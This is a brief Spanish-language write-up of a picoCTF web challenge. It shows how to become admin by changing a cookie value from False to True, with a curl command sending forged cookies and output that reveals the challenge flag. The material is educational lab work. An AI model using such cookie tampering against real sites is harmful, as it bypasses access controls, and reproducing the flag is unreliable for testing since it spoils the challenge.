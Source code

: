#notas_hacking
# Reto
## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
## Solución
Editar cookies una vez haciendo `login` con cualquier usuario menos Joe con la extensión `cookie-editor`. cambiar `admin=False` a `admin=True` o con la terminal hacer:
```bash
┌──(kali㉿kali)-[~/retos]
└─$ curl -X GET https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=sdmin; password=admin; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    146      0  0:00:08  0:00:08 --:--:--   333
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>}
```
## Notas
`curl` - navegar por un pagina
## Referencias
